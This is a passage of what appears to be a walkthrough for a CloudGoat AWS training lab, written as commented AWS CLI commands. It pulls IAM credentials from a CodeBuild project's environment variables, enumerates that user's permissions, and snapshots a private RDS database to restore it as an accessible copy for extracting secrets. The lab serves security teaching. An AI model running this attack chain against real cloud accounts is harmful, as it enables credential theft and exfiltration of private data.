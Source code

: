 ```bash
    --names cg-codebuild-cgidxgz5plnjdu \
    --profile $SRC_PROFILE

aws codebuild batch-get-projects \
    --names cg-codebuild-cgidxgz5plnjdu \
    --query "projects[*].environment" \
    --profile $SRC_PROFILE
# notice that the environment variables of the build project have some IAM security credentials
# might possibly belong to an IAM User "Calrissian".



# ------------- 4. credentail for Calrissian
# To verify the credentials
# create an AWS CLI named profile with the security credentials
# run `aws sts get-caller-identity` for that profile.

# use [enumerate-iam] script to see the user privileges
# IAM User "Calrissian" has some EC2 and RDS related permissions.



# ------------- 5. check RDS instances in the AWS account.
aws rds describe-db-instances \
    --query "DBInstances[*].[DBInstanceIdentifier, Engine , DBName]" \
    --output text \
    --profile calrissian
# cg-rds-instance-cgidetofos97ig     postgres     securedb

# There is an RDS instance in the AWS account that is using "PostgreSQL" but it is not publicly accessible.
# This is our target RDS instance on which the secrets are stored in "securedb" database.

# There are various ways to continue our exploitation


# ------------- 6. create a snapshot of the running RDS instance
# use snapshot to create another RDS instance that we can control, from which we can extract the secrets.
# create a snapshot of the running RDS instance.
aws rds create-db-snapshot \
    --db-snapshot-identifier secrets-snapshot \
    --db-instance-identifier cg-rds-instance-<CLOUDGOAT-ID> \
    --profile calrissian

# create an RDS instance from the snapshot.
# For us to be able to access the RDS Instance we create publicly, place it in appropriate subnet and security group.

# 1. identify the subnet group of the already running RDS Instance.
aws rds describe-db-subnet-groups \
    --query "DBSubnetGroups[?contains(DBSubnetGroupName,'rds')]" \
    --profile calrissian

# 2. check if there is a security group that allows us to communicate with RDS service.
aws ec2 describe-security-groups \
    --query "SecurityGroups[?contains(Description,'RDS')]" \
    --profile calrissian

# create an RDS instance from the snapshot.
aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier secrets-instance \
    --db-snapshot-identifier secrets-snapshot \
```